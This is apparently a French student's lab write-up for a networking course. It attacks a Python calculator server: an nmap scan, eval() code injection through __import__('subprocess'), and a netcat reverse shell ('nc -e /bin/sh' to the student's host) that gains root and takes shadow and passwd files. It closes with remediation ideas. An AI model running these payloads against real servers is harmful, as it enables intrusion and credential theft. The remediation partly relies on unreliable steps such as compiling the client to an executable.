 # TP 5 Linux

## *1. Reconnaissance*

**Déterminer**

L'IP a laquelle le client essaie de se co quand on le lance est 10.1.2.12.

Le port auquel il essaie de se co sur cette IP est 13337.

L'autre méthode que la lecture du code pour obtenir les infos est l'execution du code.

```
ERROR 2023-11-30 15:20:46,319 Impossible de se connecter au serveur 10.1.2.12 sur le port 13337
```

**Scanner le réseau**

Commande nmap : 

```
nmap -oN result.txt -T2 -Pn -sT -p13337 10.33.64.1/20
```

[tp5_nmap.pcapng](./Ressource/result.pcapng)

**Connectez-vous au serveur**

```
# On définit la destination de la connexion
host = '10.33.67.166'  # IP du serveur
port = 13337       
```

elle permet de faire des calculs.

## *2. Exploit*

**Injecter du code serveur**

injection
```
PS C:\Users\guill\TP-Reseau-B2> & C:/Users/guill/AppData/Local/Microsoft/WindowsApps/python3.12.exe c:/Users/guill/TP-Reseau-B2/5/client.py
Veuillez saisir une opération arithmétique : __import__('subprocess').getoutput('echo coucou')
```

Dans les log 
```
2023-11-30 16:35:59 INFO Connexion r�ussie � 10.33.67.166:13337
2023-11-30 16:36:09 INFO Message envoy� au serveur 10.33.67.166 : __import__('subprocess').getoutput('echo Bonjour Lorens comment �a va ?')
```

## *3. Reverse shell*

**Obtenez un reverse shell sur le serveur**

Sur notre PC
```
PS C:\Users\guill> ncat -l -vv -p 9999  
```

Commande injecter (log)
```
INFO Connexion reussie : 10.33.70.40:50002
INFO Message envoye au serveur 10.33.70.40 : __import__('subprocess').getoutput('yum install nc -y')
INFO Reponse recue du serveur 10.33.70.40 : b'Last metadata expiration check: 0:22:28 ago on Fri 01 Dec 2023 02:22:47 PM CET.\nPackage nmap-ncat-3:7.92-1.el9.x86_64 is already installed.\nDependencies resolved.\nNothing to do.\nComplete!'
INFO Connexion reussie : 10.33.70.40:50002
INFO Message envoye au serveur 10.33.70.40 : __import__('subprocess').getoutput('nc -e /bin/sh 10.33.76.184 9999')
```

reverse shell actif 
```
Ncat: Connection from 10.33.70.40:41324.
echo toto
toto
whoami
root
```

**Pwn**

Fichier voler :

[Shadow](./Ressource/shadow.txt)

[Passwd](./Ressource/passwd.txt)

[Code serveur](./Ressource/server.py)

Service qui tourne :

[Service](./Ressource/service.txt)

## *4. Bonus : DOS*

## *II. Remédiation*

**Proposer une remédiation dév**

Rendre le code client executable 

```
PS C:\Users\samyd> pip install pyinstaller
PS C:\Users\samyd> pyinstaller --onefile client.py 
```

[Code client modif](./Ressource/client.exe)

Code server.py : Rajoute la condition initialement présent dans client.py pour vérifier si l'imput est un nombre ou pas Attention à l'utilisation de eval() qui est dangereux

[Code Serveur modif](./Ressource/serveur_modif.py)

**Proposer une remédiation système**

Creer un utilisateur pour lancer le service qui n'a pas les droits sudo.

Bloquer toutes les sorties du firewall (sauf les sorties initier par l'utilisateur).

Configurer SELinux 

Configurer le .service